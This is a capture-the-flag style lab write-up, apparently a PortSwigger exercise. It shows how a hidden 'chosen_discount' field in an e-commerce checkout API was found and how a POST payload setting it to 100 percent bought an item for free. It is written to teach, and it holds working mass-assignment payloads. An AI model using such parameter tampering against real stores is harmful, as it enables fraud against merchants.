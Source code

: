 # 🧪 Lab: Finding and Exploiting an Unused API Endpoint

## 📋 Lab Description

**Goal:**  
Exploit a hidden API endpoint to purchase a **Lightweight l33t Leather Jacket** using the credentials `wiener:peter`.

**Level:** Practitioner  
**Status:** ✅ *Completed*

---

## 🔍 Phase 1: Reconnaissance

- Logged in using the provided credentials: `wiener:peter`
- Explored the application to identify visible functionality
- Captured and reviewed HTTP requests using Burp Suite
- Identified existing endpoints, such as:
  - `/api/products`
  - `/api/user/cart`
- Noticed the API request GET `/api/checkout` used for the checkout contain a JSON object

  ```
  {
        "chosen_discount":{
            "percentage":0
            },
        "chosen_products":[
            {
                "product_id":"1",
                "name":"Lightweight \"l33t\" Leather Jacket","quantity":1,
                "item_price":133700
            }
        ]
    }
  ```

---

## 🧪 Phase 2: Testing & Errors

- Tried changing the API request: I sent POST `/api/checkout` adding `chosen_discount` as a parameter in the json object--> No error retrived 
```
{
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```
--->
```
{
        "chosen_discount":{
            "percentage":0
            },
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```
- Tried to change the value of the `percentage` in a char --> got the error invalid value

---

## 🎯 Phase 3: Exploitation

- I sent a POST `/api/checkout` with the payload to get a 100% discount for the article: 

```
{
        "chosen_discount":{
            "percentage":100
            },
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```

